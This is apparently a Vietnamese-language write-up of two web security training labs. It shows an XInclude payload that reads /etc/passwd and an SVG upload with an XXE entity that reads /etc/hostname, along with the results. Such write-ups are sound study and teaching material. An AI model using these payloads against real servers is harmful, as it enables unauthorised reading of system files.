 >![](https://i.imgur.com/wd5FwlT.png)

<hr>

### Bài 7: Exploiting XInclude to retrieve files
>![](https://i.imgur.com/CbUUaGm.png)

Mô tả: trang web nhúng input vào tài liệu XML, ta không kiểm soát được toàn bộ XML nên không định nghĩa được DTD để khai thác như cách thông thường. Mục tiêu là sử dụng `Xinclude` để khai thác lấy nội dung file /etc/passwd

Theo mặc định, XInclude sẽ phân tích cú pháp tài liệu được include dưới dạng XML. Vì /etc/passwd không phải là XML hợp lệ, nên ta sẽ cần thêm một thuộc tính bổ sung vào chỉ thị XInclude để thay đổi hành vi này.

Tìm kiếm thuộc tính đó, em search google và thấy `xmlns:xi="http://www.w3.org/2001/XInclude"`

Viết 1 payload đơn giản để include tài liệu như sau
https://gist.github.com/jakekarnes42/effe052f1095532cda84307024b3d512

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

Ta có kết quả:

>![](https://i.imgur.com/MRqRm4a.png)

>![](https://i.imgur.com/Kfhqkuk.png)

<hr>

### Bài 8: Exploiting XXE via image file upload
>![](https://i.imgur.com/MxWiBZ8.png)

Mô tả: Một số thư viện web server dùng để xử lý ảnh tải lên chấp nhận cả file `SVG` - loại file ảnh có format xml và vô tình trở thành điểm yếu để khai thác XXE. Mục tiêu là lợi dụng điểm này để lấy hostname

Viết một file SVG có nội dung như sau:
```xml!
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="300">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Upload file ảnh này lên và truy cập tới nó ta có nội dung chính là `hostname`

>![](https://i.imgur.com/ZRgDkiP.png)

**eb055800dade**


>![](https://i.imgur.com/iWH29zA.png)
